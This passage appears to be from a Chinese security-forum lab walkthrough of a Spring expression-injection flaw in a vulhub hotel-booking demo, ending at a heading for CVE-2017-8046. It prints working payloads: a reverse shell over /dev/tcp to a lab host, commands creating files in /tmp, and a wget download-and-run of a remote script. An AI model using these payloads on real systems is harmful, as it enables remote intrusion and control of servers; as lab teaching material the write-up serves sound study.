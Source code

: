 然后访问id=1的酒店地址

![image-20210521094725512](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a4f4a5d374f693f083fce82807ce3385be5cfaad.png)

![image-20210521095055636](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-60bbc76152823e4c918536b928f80738a9d464b4.png)

然后进行抓包

![image-20210521095217172](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-14cf01220102e646e71059f0ad67ba372370ea46.png)

![image-20210521095326142](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f8e60972c7ae919b12eaa4f27192529375ea4db5.png)

#### Poc(反弹shell)

```php
_(new java.lang.ProcessBuilder("bash","-c","bash -i >&amp; /dev/tcp/192.168.175.130/8888 0>&amp;1")).start()=vulhub
URL编码后：
_(new java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.175.130/8888 0>%261")).start()=vulhub
```

进行执行

![image-20210521101939418](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c34cf55c700a847caf9ae69316d8fe2ff765cdc3.png)

成功拿到反弹shell

![image-20210521101957457](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-34d2bde7a054f91404f41fd37947c6c192bcb4c8.png)

#### EXP拓展

执行命令

```php
&amp;_T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
或者
&amp;_(new+java.lang.ProcessBuilder("touch /tmp/success2")).start()=test
```

![image-20210521102426141](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-13632cc508eeadd9702fdcdda91f222e5281d7b6.png)

![image-20210521102447095](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0a0f833d8952859a79c8c16140336bf11f24e85d.png)

远程下载脚本 并执行

```php
&amp;_T(java.lang.Runtime).getRuntime().exec("/usr/bin/wget -qO /tmp/1 http://192.168.175.130:8888/1")

&amp;_T(java.lang.Runtime).getRuntime().exec("/bin/bash /tmp/1")
```

### Spring data Rest远程命令执行命令(CVE-2017-8046)
